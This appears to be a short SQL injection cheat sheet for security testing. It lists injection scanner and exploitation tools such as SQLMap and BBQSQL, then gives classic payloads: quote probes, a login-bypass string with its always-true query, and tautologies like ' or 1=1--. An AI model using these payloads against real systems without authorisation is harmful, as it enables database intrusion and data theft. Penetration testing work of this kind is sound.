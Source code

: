 ## Voice Based Sql Injection: 
It is a sql injection attack method that can be applied in applications that provide access to databases with voice command. An attacker could pull information from the database by sending sql queries with sound.


# SQL Injection Vulnerability Scanner Tool’s:
```
SQLMap — Automatic SQL Injection And Database Takeover Tool
jSQL Injection — Java Tool For Automatic SQL Database Injection
BBQSQL — A Blind SQL-Injection Exploitation Tool
NoSQLMap — Automated NoSQL Database Pwnage
Whitewidow — SQL Vulnerability Scanner
DSSS — Damn Small SQLi Scanner
explo — Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting — Blind SQL-Injection via Bitshifting
Leviathan — Wide Range Mass Audit Toolkit
Blisqy — Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)
```


# Test: 
## Any Field
```
'
"
```


## Login
Username: 
```
" or ""="
```
Password:
```
" or ""="
```
Result:
```
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""
```
The SQL above is valid and will return all rows from the "Users" table, since OR ""="" is always TRUE.



## Other tests
```
' or 1=1--
' and 1=1--
' or 1=1;--
' and 1=1;--
'OR 1 OR'
105 OR 1=1
```
